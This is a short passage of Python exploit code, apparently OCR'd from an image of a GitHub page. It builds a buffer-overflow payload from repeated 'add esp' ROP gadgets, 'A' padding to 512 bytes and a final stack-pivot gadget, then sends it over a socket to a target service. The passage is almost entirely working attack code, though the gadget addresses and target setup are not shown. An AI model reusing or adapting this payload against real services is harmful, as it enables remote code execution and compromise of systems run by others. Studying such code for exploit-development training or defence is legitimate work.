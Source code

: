     msg += add_esp_0x78 # 0x1c0-0x78 = 0x148
    msg += b"A"*0x78
    msg += add_esp_0x78 # 0x1c0-0x78-0x78 = 0xd0
    msg += b"A"*0x78
    msg += add_esp_0x78 # 0x1c0-0x78-0x78-0x78 = 0x58
    msg += b"A"*0x78
    msg += add_esp_0x38 

    msg += b"A"*(512-len(msg))
    msg += b"\x51" #push rcx
    msg += b"\x00"*7 #padding for reverse_arr
    msg += add_esp_0x78 #gadget to pivot stack

    s.send(msg)
    res = s.recv(2048)

    s.close() # close connection
    w8()
    ```

    
